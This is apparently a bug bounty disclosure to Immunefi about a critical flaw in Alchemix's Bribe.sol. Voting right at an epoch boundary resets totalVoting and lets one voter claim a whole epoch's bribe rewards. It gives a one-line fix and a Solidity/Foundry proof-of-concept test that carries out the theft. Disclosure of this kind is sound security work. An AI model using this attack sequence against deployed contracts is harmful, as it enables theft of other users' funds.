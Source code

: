 # 30860 - \[SC - Critical] Wrong timestamp for totalVoting

Submitted on May 7th 2024 at 04:17:29 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30860

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:

* Theft of unclaimed yield
* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

The attacker can change `totalVoting` at the first second of a new epoch and steal all reward for an epoch.

## Vulnerability Details

```
    /// @inheritdoc IBribe
    function earned(address token, uint256 tokenId) public view returns (uint256) {
        ...
        Checkpoint memory cp = checkpoints[tokenId][_endIndex];
        uint256 _lastEpochStart = _bribeStart(cp.timestamp);
        uint256 _lastEpochEnd = _lastEpochStart + DURATION;
        uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;

        // Prevent divide by zero
        if (_priorSupply == 0) {
            _priorSupply = 1;
        }

        if (block.timestamp > _lastEpochEnd) {
            reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        }

        return reward;
    }
```

If an attacker call `Voter.distribute` at `_lastEpochStart + DURATION`, then `Bribe.resetVoting` function is triggered and `totalVoting` is updated to `0`. And then if the attacker call `Voter.vote` function the same params (or tokenId with less votingPower), then `Bribe._writeVotingCheckpoint` is triggered and `votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes` is updated with the new votes. And the attacker claim the reward at the next block before other users claim. The smaller the new vote amount, the more rewards the attacker can steal.

## Impact Details

The attacker can steal reward and other users can't claim the reward.

## Recommandation

Bribe.sol: 268 line

```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd)].votes;
```

to

```
uint256 _priorSupply = votingCheckpoints[getPriorVotingIndex(_lastEpochEnd) - 1].votes;
```

## Proof of Concept

```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }

    function goNextEpoch() private {
        epochTime = epochTime + DURATION;
        epochBlock = epochBlock + DURATION / 12;
        hevm.warp(epochTime);
        hevm.roll(epochBlock);
    }

    function testBugPriorBalanceIndex() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;



        // go epoch 1
        goNextEpoch();

        // at start time of epoch 1
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 1000, MAXTIME, false);

        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        // totalVoting = (1 + 1000) * votingPowerPerTokenAtMaxtime = 1001 * votingPowerPerTokenAtMaxtime
        // reward expected for targetTokenId = 100K * 1 / 1001 = 100/1001 K

        // go epoch 2
        goNextEpoch();

        // at start time of epoch 2
        voter.distribute();

        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // create a new token with same amount
        uint256 supportTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

        hevm.prank(admin);
        // at start time of epoch 2
        voter.vote(supportTokenId, pools, weights, 0);
        // after this tx, the totalVoting = 1 * votingPowerPerTokenAtMaxtime
        // earnedAmount = 100K * 1 / 1 = 100 K
        // it means that the smaller the voting power of the supportTokenId, the more rewards it can steal.
        // but this is not calculated because of block.timestamp == _lastEpochEndthis in Bribe.sol
        //     if (block.timestamp > _lastEpochEnd) {
        //          reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
        //     }
        // so the attacker waits for the next block
        hevm.warp(block.timestamp + SECONDS_PER_BLOCK);
        hevm.roll(block.number + 1);

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```
